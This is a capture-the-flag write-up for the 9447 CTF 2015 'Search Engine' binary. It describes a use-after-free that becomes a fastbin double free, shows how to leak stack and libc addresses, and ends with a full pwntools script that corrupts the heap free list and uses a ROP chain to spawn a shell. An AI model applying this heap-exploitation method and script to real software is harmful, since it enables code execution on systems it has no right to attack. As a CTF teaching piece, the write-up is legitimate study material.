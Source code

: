 # Double Free Exploit 

#### 9447 CTF 2015: Search Engine Writeup

#### Reversing:

The binary is 64-bit , which has NX and canaries enabled.

It's functionalities are :

  * Add a sentence : malloc(size)
  * Search a word : split the sentence using spaces and a pointer to it 
  * struct created :
  
  ```
  struct Word {
    char *word_ptr;
    int word_len;
    char *src_sentence;
    int sentence_size;
    struct Word *next;
};

  ```
  
  * validation :
  
  ```
  void search()
  {
  
  for ( i = words; i; i = i->next )
{
  if ( *i->sentence )
  {
    if ( i->word_len == size && !memcmp(i->word_ptr, needle, size) )
    {
      __printf_chk(1LL, "Found %d: ", i->sentence_size);
      fwrite(i->sentence, 1uLL, i->sentence_size, stdout);
      putchar('\n');
      puts("Delete this sentence (y/n)?");
      read_until_newline(&choice, 2, 1);
      if ( choice == 'y' )
      {
        memset(i->sentence, 0, i->sentence_size);
        free(i->sentence);
        puts("Deleted!");
      }
    }
    
    ....

  ```
  
  #### Exploit 
  
  We can see that after searching a word , we are able to delete a sentence, and it's contents as free'd out , but the word linked 
  list is not freed hence it can be a UAF , but there is a check *i->sentence which prevents us from double free , but a good a thing is after freeing it it as added to fastbin list , and if we free another sentece a fd pointer is placed at previous chunk , now
  i->sentence is not null and now we can search for '\x00' and delete the sentance again giving us double free corruption 
  
  So the plan is :

  * Create 3 sentences "A"*48+" C"
  * now delete all 3 by searching for word "C"
  * now the freelist would be 1->2->3
  * now delete 2 again causing freelist to be 2->1->2
  * now allocate a sentence of size 48 now we will get 2 , with this we could corrupt fd
  * now allocate 2 more sentences to make bin->corruptd fd 
  * now we allocate a sentence to have arbitary write
  * since the malloc checks the fd->size with malloc(size) we need to return to area where size is 0x40
  * now overwrite eip and checkmate 
  
  ##### Leaking stack :
  
   the func read_num gets 48 bytes , if we give "A"*48 it null terminated and would leak stack address 
   
 ##### Leaking libc :

   since the small bins have fd and bk pointer the bk pointer of 1'st chunk would contain libc address 
   
  #### Exploit code :
  
```
from pwn import *

context.bits = 64

pop_rdi_ret = 0x400e23
system_off = 0x35a708
binsh_off = 0x2381bf

def search(size,word):
	p.recvlines(3)
	p.sendline('1')
	p.recvline()
	p.sendline(str(size))
	p.recvline()
	p.sendline(word)

def create(size,word):
	p.recvlines(3)
	p.sendline('2')
	p.recvline()
	p.sendline(str(size))
	p.recvline()
	p.sendline(word)
	p.recvline()


def leak_stack():

	p.recvlines(3)
	p.sendline('A'*48)
	p.recvline()

	# doesn't work all the time
	p.sendline('A'*48)
	leak = p.recvline().split()[0].split('A'*48)[1]
	context.bits = len(leak)*8
	leak = unpack(leak)
	log.info("Stack leak: "+hex(leak))

	# dummy entry to exit 
	p.sendline('1')
	p.recvline()
	p.sendline('1')
	p.recvline()
	p.sendline('H')	
	return leak

def leak_libc():
	
	create(170,"A"*168+" C")
	search(1,"C")
	p.recvlines(2)
	p.sendline("y")
	p.recvline()
	search(1,"\x00")
	leak=p.recvline()[11:17]
        context.bits = len(leak)*8
        leak = unpack(leak)
	log.info("libc leak: "+hex(leak))
	p.recvline()
	p.sendline("n")
	return leak	
	
p = process('./search')

print ""

stack_leak = leak_stack()

libc_leak = leak_libc()

fake_heap = stack_leak + 0x32  
system = libc_leak - system_off 
binsh = libc_leak - binsh_off

log.info("System: "+hex(system))
log.info("/bin/sh: "+hex(binsh))

context.bits = 64
payload = "\x90"*6+pack(pop_rdi_ret)+pack(binsh)+pack(system)+"\x90"*18

create(48,"A"*46+" C")
create(48,"B"*46+" C")
create(48,"D"*46+" C")

search(1,"C")
print p.recvlines(2)
p.sendline("y")
print p.recvline()
print p.recvlines(2)
p.sendline("y")
print p.recvline()
print p.recvlines(2)
p.sendline("y")
print p.recvline()


search(1,"\x00")
print p.recvlines(2)
p.sendline("y")
print p.recvline()
print p.recvlines(2)
p.sendline("n")

create(48,pack(fake_heap)+"A"*40) # overwrite fd
create(48,"B"*48) # unused
create(48,"C"*48) # unused


create(48,payload)

p.interactive()

```   
  
  







